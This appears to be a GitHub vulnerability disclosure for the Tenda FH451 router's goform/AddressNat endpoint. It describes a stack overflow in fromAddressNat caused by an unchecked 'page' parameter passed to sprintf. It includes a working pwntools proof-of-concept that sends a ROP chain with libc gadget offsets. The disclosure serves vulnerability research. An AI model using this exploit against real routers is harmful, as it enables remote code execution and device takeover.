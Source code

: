 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/AddressNat](http://0.0.0.0:80/goform/AddressNat)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat1.png)

The program retrieves the user input parameter `page` at line 14 but does not perform any size check. When the parameter value is excessively large, it will causes a stack overflow in the `sprintf` function at line 15, which can lead to a program crash or potential exploitation.  
Cross-referenced location: from the `fromAddressNat` function, routed to `AddressNat`, at line 73.
![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat2.png)
Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/AddressNat`.

## payload
```python
import requests
from pwn import *

libc = ELF('./lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};

url = "http://0.0.0.0:80/goform/addressNat"
payload = b'a'*256 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str
data = {"page": payload}
res = requests.post(url, data=data)
```

# reproduce
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat4.png)
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat5.png)
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat6.png)

